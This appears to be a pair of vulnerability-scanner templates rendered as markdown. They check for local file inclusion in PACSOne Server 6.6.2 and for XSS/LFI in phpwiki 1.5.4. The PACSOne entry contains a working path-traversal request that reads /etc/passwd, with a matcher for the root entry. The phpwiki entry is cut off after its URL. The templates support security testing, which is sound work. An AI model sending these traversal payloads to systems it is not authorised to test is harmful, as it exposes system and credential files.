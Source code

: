 # PACSOne Server 6.6.2 - Local File Inclusion

## Description

- PACSOne Server 6.6.2 is vulnerable to local file inclusion via its integrated DICOM Web Viewer.
- severity - high
- tags - pacsone,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/pacsone/nocache.php?path=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2f.%2fzpx%2f..%2fpasswd

### Matchers

**Type - regex**

- regex
  1. root:[x*]:0:0

**Type - status**

- status
  1. 200

---

# phpwiki 1.5.4 - Cross-Site Scripting/Local File Inclusion

## Description

- phpwiki 1.5.4 is vulnerable to cross-site scripting and local file inclusion, and allows remote unauthenticated attackers to include and return the content of locally stored files via the 'index.php' endpoint.
- severity - high
- tags - xss,edb,phpwiki,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/phpwiki/index.php/passwd

### Matchers
